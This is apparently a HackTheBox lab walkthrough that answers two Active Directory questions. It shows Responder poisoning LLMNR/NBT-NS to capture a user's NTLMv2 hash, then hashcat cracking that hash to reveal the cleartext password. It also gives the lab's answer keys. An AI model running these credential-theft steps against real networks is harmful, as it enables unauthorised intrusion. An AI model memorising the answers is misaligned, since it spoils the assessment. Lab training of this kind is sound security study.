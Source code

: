 
## 🎫 **Question 1: LLMNR Poisoning**

### **🎯 Task**: "Obtain a password hash for a domain user account that can be leveraged to gain a foothold in the domain. What is the account name?"

### **📋 Solution Steps:**

#### **Step 1: Connect to Jump Box**
```bash
# SSH to ParrotOS jump box:
ssh htb-student@TARGET_IP
```

#### **Step 2: Run Responder for LLMNR Poisoning**
```bash
# Capture NTLM hashes via LLMNR/NBT-NS poisoning:
sudo responder -I ens224 -wrfv

# Wait for automatic hash capture:
# [SMB] NTLMv2-SSP Client   : 172.16.7.3
# [SMB] NTLMv2-SSP Username : INLANEFREIGHT\AB920
# [SMB] NTLMv2-SSP Hash     : AB920::INLANEFREIGHT:6741b51d529201c7:F8653C1E3120B191A7DA708C0E363F8B:...
```

**🎯 Answer**: `AB920`

---

## 🔑 **Question 2: Hash Cracking**

### **🎯 Task**: "What is this user's cleartext password?"

### **📋 Solution Steps:**

#### **Step 1: Extract and Format Hash**
```bash
# Save hash to file:
echo 'AB920::INLANEFREIGHT:6741b51d529201c7:f8653c1e3120b191a7da708c0e363f8b:...' > AB920_ntlmv2
```

#### **Step 2: Crack with Hashcat**
```bash
# Crack NetNTLMv2 hash:
hashcat -m 5600 AB920_ntlmv2 /usr/share/wordlists/rockyou.txt

# Result: AB920:weasal
```

**🎯 Answer**: `weasal`

---